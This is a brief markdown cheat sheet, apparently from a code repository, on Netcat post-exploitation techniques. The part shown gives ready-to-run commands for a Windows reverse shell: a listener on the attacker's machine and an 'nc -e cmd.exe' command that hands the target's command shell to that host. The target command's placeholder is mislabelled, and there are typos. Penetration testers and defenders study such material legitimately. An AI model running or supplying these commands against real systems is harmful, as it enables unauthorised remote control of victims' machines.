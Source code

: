 # Netcat Post Exploitation Techniques
This cheat sheet is for techniques using the Netcat utility during post-exploitation for data exfiltrarion, shell creation and more.
## Reverse Netcat Shell (WINDOWS)
1. On Attacker System, Start the Listener:

`nc -lvvnp 443`

2. On Target System, Cnnect to Listener on Attacker:

`nc -nv (TARGET IP ADDRESS) 443 -e cmd.exe`
